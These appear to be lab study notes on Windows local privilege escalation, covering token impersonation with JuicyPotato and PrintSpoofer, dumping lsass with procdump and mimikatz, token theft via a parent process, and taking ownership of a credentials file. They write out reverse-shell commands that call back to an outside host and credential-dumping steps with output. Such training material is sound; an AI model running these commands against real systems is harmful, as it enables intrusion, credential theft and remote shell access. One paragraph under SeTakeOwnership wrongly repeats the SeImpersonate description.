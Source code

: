 # Windows User Privileges

Security principals are the primary way of controlling access to resources on Windows hosts. Every single security principal is identified by a unique [Security Identifier (SID)](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows). When a security principal is created, it is assigned a SID which remains assigned to that principal for its lifetime.

## **SeImpersonate and SeAssignPrimaryToken**

SeImpersonatePrivilege is **a Windows security setting that is assigned by default to the device's local Administrators group and the Local Service account**. The role is to determine which programs are allowed to impersonate a user or other specified account and perform actions on behalf of the user

*   `whoami /priv`

    if runnign whoami /priv lists `SeImpersonatePrivilege` or **`SeAssignPrimaryToken`**, we can use this privilege to impersonate a privileged account such as `NT AUTHORITY\\SYSTEM`

#### **JuicyPotato**

For this juicy potato can be used to exploit he `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

* `nc -lnvp 8443` → setup netcat listener
*   `c:\\tools\\JuicyPotato.exe -l 53375 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\tools\\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *`

    `-l` is the COM server listening port,

    `-p` is the program to launch (cmd.exe),

    `-a` is the argument passed to cmd.exe, and

    `-t` is the `createprocess` call.

    Above, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

JuicyPotato does not work on Windows Server 2019 and Windows 10 build 1809 onwards

#### **PrintSpoofer and RoguePotato**

* `c:\\tools\\PrintSpoofer.exe -c "c:\\tools\\nc.exe 10.10.14.3 8443 -e cmd"` → using printspoofer

## **SeDebugPrivilege**

SeDebugPrivilege can be used to capture sensitive information from system memory, or access/modify kernel and application structures.

This right may be assigned to developers who need to debug new system components as part of their day-to-day job

```
C:\\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

we can see SeDebugPrivilege is Listed.

*   `C:\\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp` → we can dump LSAAS process, which stores user creds after login to the system

    procdump.exe is available from SysInternals suite

```
C:\\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \\ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \\ / ##       > <https://blog.gentilkiwi.com/mimikatz>
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > <https://pingcastle.com> / <https://mysmartlogon.com> ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP>

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
```

Then we can use mimikatz to import those dump file and get the NTLM hash

we are using `log` on mimikatz to save output to txt file

**`SeDebugPrivilege can be used to get RCE as SYSTEM`**

Our idea here is to get elevate our privilege to SYSTEM by launching a Child Process and using the elevated rights granted to our account via SeDebugPrivilege to alter normal system behavior to inherit the token of parent process.

* `PS C:\\htb> tasklist`→ get the PID of process running as SYSTEM (run command on elevated powershell)

then we will use this tool [https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem)

```
PS> . .\\psgetsys.ps1

PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>

```

* `ImpersonateFromParentPid -ppid 612 -command "C:\\Windows\\System32\\cmd.exe" -cmdargs <command arguments>`

## **SeTakeOwnershipPrivilege**

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes

The role is to determine which programs are allowed to impersonate a user or other specified account and perform actions on behalf of the user

```powershell
PS C:\\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

We see the privilege is disabled, we can enabled it using this script [https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

```powershell
PS C:\\htb> Import-Module .\\Enable-Privilege.ps1
PS C:\\htb> .\\EnableAllTokenPrivs.ps1
PS C:\\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

Next, choose a target file and confirm the current ownership.

Let's check out our target file to gather a bit more information about it.

```powershell
PS C:\\htb> Get-ChildItem -Path 'C:\\Department Shares\\Private\\IT\\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\\Department Shares\\Private\\IT\\cred.txt 6/18/2021 12:23:28 PM    Archive
```

#### Checking File ownership

```powershell
PS C:\\htb> cmd /c dir /q 'C:\\Department Shares\\Private\\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B

 Directory of C:\\Department Shares\\Private\\IT

06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

#### **Taking Ownership of the File**

```powershell
PS C:\\htb> takeown /f 'C:\\Department Shares\\Private\\IT\\cred.txt'

SUCCESS: The file (or folder): "C:\\Department Shares\\Private\\IT\\cred.txt" now owned by user "WINLPE-SRV01\\htb-student".
```

#### **Confirming Ownership Changed**

```powershell
PS C:\\htb> Get-ChildItem -Path 'C:\\Department Shares\\Private\\IT\\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\\Department Shares\\Private\\IT WINLPE-SRV01\\htb-student
```

we may still not be able to read the file and need to modify the ACL using icacls

```powershell
PS C:\\htb> icacls 'C:\\Department Shares\\Private\\IT\\cred.txt' /grant htb-student:F

processed file: C:\\Department Shares\\Private\\IT\\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

Now we have access to targeted file.
